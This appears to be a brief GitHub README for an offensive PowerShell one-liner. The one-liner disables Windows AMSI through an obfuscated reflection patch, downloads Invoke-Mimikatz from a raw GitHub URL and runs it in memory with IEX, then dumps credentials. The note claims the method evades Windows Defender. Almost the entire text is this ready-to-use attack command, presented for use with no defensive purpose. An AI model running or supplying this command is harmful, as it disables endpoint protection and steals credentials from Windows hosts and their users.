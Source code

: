 # note
Patch API AmsiScanBuffer so to bypass amsi 

The original mimikatz.ps1 can't run on win10,so I patch the original ps1,the link is : https://github.com/PowerShellMafia/PowerSploit/issues/320 

under the context of cmd:

 `powershell -exec bypass -c '$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUt'+'ils');$h="4456625220575263174452554847";$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " ";$b =$a.GetField($s,'NonPublic,Static');$b.SetValue($null,$true);IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/sharp-shooter/research/master/code/mimikatz/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds'`



Now It can bypass Windows Defender (2021--27)
